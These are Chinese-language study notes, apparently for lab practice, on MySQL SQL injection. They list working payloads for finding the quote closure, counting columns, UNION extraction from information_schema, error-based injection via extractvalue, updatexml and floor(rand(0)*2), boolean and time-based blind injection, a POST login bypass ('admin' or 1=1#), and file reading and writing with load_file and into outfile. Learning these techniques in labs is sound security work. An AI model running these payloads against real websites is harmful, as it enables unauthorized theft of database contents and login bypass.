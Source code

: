 # 常用参数
● user()：当前数据库用户

● database()：当前数据库名

● version()：当前使用的数据库版本、

● @@version_compile_os：查看操作系统

● @@datadir：数据库存储数据路径

● concat()：联合数据，将多个字符串连接成一个字符串

● group_concat()：将查询到的数据连接成一个字符串输出，用于联合查询

● concat_ws()：第一个参数是分隔符，将后续所有参数使用分隔符联合起来

● substr(a,b,c)/substring(a,b,c):限制a的输出，从b位开始输出c位

● hex() 和 unhex()：用于 hex 编码解码

● ASCII()：返回字符的 ASCII 码值

● CHAR()：把整数转换为对应的字符

● load_file()：以文本方式读取文件，在 Windows 中，路径设置为 \\

● select xxoo into outfile '路径'：权限较高时可直接写文件

# 前置测试
## 构造闭合
?id=1'

测试时可能出现一下报错：

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near **''1'' LIMIT 0,1'** at line 1

借此报错可以判断闭合方式

接着加上--+/#注释后面的代码，使用AND 1=1/AND 1=2进一步验证

## 查询列数
order by 5

or

group by 5

一个一个尝试:-D

## 测试回显位
union select 1,2,3...

# SELECT查询
## 查询数据库库名
所有数据库：
select group_concat(schema_name) from information_schema.schemata

当前数据库：
select database()

## 查询表名
select group_concat(table_name) from information_schema.tables where table_schema='数据库名'

## 查询列名
select group_concat(column_name) from information_schema.columns where table_name='表名'

## 查询数据
select group_concat(列名1,'-',列名2) from 数据库名.表名

# 报错注入
## extractvalue()
报错原理：
select extractvalue(doc,'/book/title') from xml;

↓

select extractvalue(doc,'~book/title') from xml；

extractvalue()报错一次最多显示32个字符，使用substr()拼接

示例：

?id=-1' union select 1,2,extractvalue(1,concat(0x7e,(select substr(**group_concat(schema_name)**,1,30) **from information_schema.schemata**)))--+

## upadtexml()
报错原理：

select updatexml(doc,'/book/tittle/','1')from xml;

↓

select updatexml(doc,'~book/tittle','1')from xml;

同extractvalue(),使用substr()拼接

示例：

?id=-1' union select 1,2,updatexml(1,concat(0x7e,(select substr(**group_concat(schema_name)**,1,30) **from information_schema.schemata**)),3)--+

## floor()

select count(*),concat_ws('-',(select database()),floor(rand(0)2)) as a from users group by a; //固定报错，显示报错信息；
1. rand(0) 的确定性：当给 rand() 指定种子参数(如0)时，它会生成可预测的伪随机序列
2. floor() 取整：floor(rand(0)*2) 会将结果转换为0或1
3. GROUP BY 冲突：在分组操作时，MySQL会多次计算这个值，导致临时表中出现主键冲突

示例：

?id=-1' union select 1,count(*),concat_ws('-',**(select substr(group_concat(schema_name),1,31) from information_schema.schemata)**,floor(rand(0)*2)) as a from information_schema.tables group by a--+

> information_schema.tables是数据库中一定存在的表，用作计数，不用于查询

# 盲注

## 布尔盲注

使用情况：无回显，无报错，但是页面有真假值

示例：

?id=1 AND ascii(substr((select database()),1,1))>=100

使用二分法逐一测试

## 时间盲注

使用情况：无回显，无报错，无真假值，可以尝试使用时间盲注

使用函数：

sleep(3)：使系统沉睡3秒

if(a,b,c)：若a为真，则执行b，反之则执行c

注入前测试：

?id=1 AND sleep(3) 若为数字型闭合则沉睡3秒

?id=1' AND sleep(3)若为单引号闭合则沉睡3秒

可以通过页面响应时间或打开开发者工具网络选项查看是否延迟

示例：

?id=1' and if(ascii(substr((select database()),1,1))>=100,sleep(1),sleep(3)) --+
# POST提交注入

username:admin' or 1=1#

password:123

示例：
 
uname=' union select 1,group_concat(schema_name) from information_schema.schemata#&passwd=123&Submit=Submit


